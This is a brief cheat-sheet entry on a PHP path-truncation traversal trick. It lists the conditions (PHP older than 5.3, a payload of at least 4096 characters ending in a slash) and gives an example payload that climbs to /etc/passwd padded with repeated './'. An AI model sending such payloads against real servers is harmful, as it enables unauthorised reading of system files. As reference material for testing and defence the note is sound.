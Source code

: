 #path_traversal #php

Conditions:
- Version < PHP 5.3
- PHP buffer size = 4096, so payload has to be at least 4096 chars long.
- It has to end with a “/”.
- If we want a path traversal, start with a lertter: “a/”.

```
a/../../../../../../../../../etc/passwd/././././.[...]/././././
```

